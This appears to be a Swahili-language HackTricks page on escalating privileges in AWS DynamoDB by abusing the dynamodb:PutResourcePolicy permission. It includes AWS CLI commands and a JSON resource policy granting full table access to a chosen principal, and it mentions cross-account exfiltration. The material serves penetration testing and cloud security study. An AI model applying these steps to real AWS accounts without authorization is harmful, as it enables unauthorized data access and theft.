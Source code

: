 # AWS - DynamoDB Privesc

{{#include ../../../../banners/hacktricks-training.md}}

## dynamodb

Kwa habari zaidi kuhusu dynamodb, angalia:

{{#ref}}
../../aws-services/aws-dynamodb-enum.md
{{#endref}}

### `dynamodb:PutResourcePolicy`, na kwa hiari `dynamodb:GetResourcePolicy`

Tangu Machi 2024, AWS inatoa *sera za msingi wa rasilimali* kwa DynamoDB ([AWS News](https://aws.amazon.com/about-aws/whats-new/2024/03/amazon-dynamodb-resource-based-policies/)).

Kwa hivyo, ikiwa una `dynamodb:PutResourcePolicy` kwa jedwali, unaweza kujipa au kumpa principal mwingine ufikiaji kamili wa jedwali hilo.

Kumpa principal yeyote `dynamodb:PutResourcePolicy` mara nyingi hutokea kwa bahati mbaya, ikiwa admini wanafikiri kwamba kumpa `dynamodb:Put*` kutamruhusu principal kuweka vitu tu kwenye database - au walipowapa seti ya ruhusa hiyo kabla ya Machi 2024...

Kwa kawaida, pia unapaswa kuwa na `dynamodb:GetResourcePolicy`, ili usibadilishe ruhusa nyingine zinazoweza kuwa muhimu, bali uingize tu ruhusa za ziada unazohitaji:
```bash
# get the current resource based policy (if it exists) and save it to a file
aws dynamodb get-resource-policy \
--resource-arn <table_arn> \
--query 'Policy' \
--output text > policy.json
```
Ikiwa huwezi kupata sera ya sasa, tumia hii inayoipa principal wako ruhusa kamili juu ya jedwali:
```json
{
"Version": "2012-10-17",
"Statement": [
{
"Sid": "FullAccessToDynamoDBTable",
"Effect": "Allow",
"Principal": {
"AWS": "arn:aws:iam::<ACCOUNT_ID>:<USER_OR_ROLE>/<USERNAME_OR_ROLENAME>"
},
"Action": [
"dynamodb:*"
],
"Resource": [
"arn:aws:dynamodb:<REGION>:<AWS_ACCOUNT_ID>:table/<TABLENAME>"
]
}
]
}
```
Ikiwa unahitaji kuibadilisha, hapa kuna orodha ya vitendo vyote vinavyowezekana vya DynamoDB: [AWS Documentation](https://docs.aws.amazon.com/amazondynamodb/latest/APIReference/API_Operations.html). Na hapa kuna orodha ya vitendo vyote vinavyoweza kuruhusiwa kupitia sera inayotegemea rasilimali *NA ni ipi kati ya hizi inaweza kutumika kwa akaunti nyingine (fikiri uondoaji wa data!)*: [AWS Documentation](https://docs.aws.amazon.com/amazondynamodb/latest/developerguide/rbac-iam-actions.html)

Sasa, ukiwa umeandaa waraka wa sera `policy.json`, weka sera ya rasilimali:
```bash
# put the new policy using the prepared policy file
# dynamodb does weirdly not allow a direct file upload
aws dynamodb put-resource-policy \
--resource-arn <table_arn> \
--policy "$(cat policy.json)"
```
Sasa, unapaswa kuwa na ruhusa ulizohitaji.

### Post Exploitation

Kulingana na ninavyojua, hakuna njia nyingine ya moja kwa moja ya **no other direct way to escalate privileges in AWS just by having some AWS `dynamodb` permissions**. Unaweza **read sensitive** taarifa kutoka kwenye majadwali (ambazo zingeweza kuwa na AWS credentials) na **write information on the tables** (ambazo zingeweza kusababisha udhaifu mwingine, kama lambda code injections...) lakini chaguzi hizi zote tayari zimetajwa katika **DynamoDB Post Exploitation page**:

{{#ref}}
../../aws-post-exploitation/aws-dynamodb-post-exploitation/README.md
{{#endref}}

### TODO: Read data abusing data Streams

{{#include ../../../../banners/hacktricks-training.md}}
